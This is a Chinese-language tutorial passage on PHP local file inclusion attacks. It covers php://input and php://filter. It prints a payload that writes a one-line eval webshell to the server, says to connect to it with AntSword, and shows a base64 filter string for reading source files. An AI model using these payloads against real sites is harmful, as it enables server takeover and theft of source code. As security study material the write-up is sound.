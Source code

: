 > php://input伪协议会自动的读取`post`数据，不用管这次请求是`get`。

>  其实就相当于要包含的参数的值为：通过`php://input`传过去的数据

后端处理会直接把`page`参数的值，也就是`php://input`伪协议引用的`post`数据拿来使用





##### php://input写入木马

> 不过不知道为什么我：php://input用不了

因为`php://input`本身就是一个代码执行，所以我们可以通过代码执行的方式来上传一个木马

```
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST['name'])?>');?>
```

> 在当前目录下写入一个php一句话木马



实际图片如下：

<img src="../../../../img/php_include 2.png" style="zoom:80%;" />



> 然后再通过蚁剑连上就行了







##### php://filter



> 元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。

简单说就是可以通过这个`php://filter`来进行本地文件的读取。



可以通过此协议，包含当前页面



用法：

```
?filename=php://filter/convert.base64-encode/resource=xxx.php filename=php://filter/read=convert.base64-encode/resource=xxx.php 一样。
```
